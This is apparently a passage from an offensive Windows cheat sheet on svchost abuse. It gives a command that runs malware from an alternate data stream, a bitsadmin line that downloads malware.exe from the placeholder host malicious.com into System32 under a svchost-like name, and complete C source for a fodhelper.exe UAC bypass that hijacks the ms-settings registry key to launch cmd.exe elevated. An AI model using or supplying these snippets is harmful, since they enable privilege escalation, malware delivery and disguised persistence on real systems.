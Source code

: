 Executing malware from alternate data streams under svchost name

```
cmd.exe /c start svchost.exe:malicious.exe
```






### BITS Job Abuse

Using BITS to download malware as svchost

```
bitsadmin /create /download /priority foreground MaliciousJob http://malicious.com/malware.exe C:\Windows\System32\svchost_malware.exe
```





### UAC Bypass

Bypassing UAC to elevate svchost privileges

```
fodhelper.exe
```



Bypassing User Account Control (UAC) is a common technique used by malware to elevate privileges without prompting the user. There are numerous methods to bypass UAC, and many of them exploit specific behaviors or vulnerabilities in Windows components. One well-known method involves leveraging the `fodhelper.exe` binary, which is a part of Windows Features on Demand.

```
#include <windows.h>
#include <stdio.h>

int main() {
    HKEY hKey;
    char cmd[] = "C:\\Windows\\System32\\cmd.exe";  // Command to be executed with elevated privileges

    // Create a registry key to hijack the fodhelper.exe behavior
    if (RegCreateKeyEx(HKEY_CURRENT_USER, "Software\\Classes\\ms-settings\\shell\\open\\command", 0, NULL, REG_OPTION_NON_VOLATILE, KEY_WRITE, NULL, &hKey, NULL) != ERROR_SUCCESS) {
        printf("Failed to create registry key.\n");
        return 1;
    }

    // Set the default value of the key to the command we want to execute
    if (RegSetValueEx(hKey, NULL, 0, REG_SZ, (BYTE*)cmd, sizeof(cmd)) != ERROR_SUCCESS) {
        printf("Failed to set registry value.\n");
        RegCloseKey(hKey);
        return 1;
    }

    // Execute fodhelper.exe, which will now launch our command with elevated privileges
    system("C:\\Windows\\System32\\fodhelper.exe");

    // Cleanup: Remove the registry key to restore original behavior
    RegDeleteKey(HKEY_CURRENT_USER, "Software\\Classes\\ms-settings\\shell\\open\\command");

    printf("UAC bypass attempted using fodhelper.exe.\n");
    return 0;
}
```
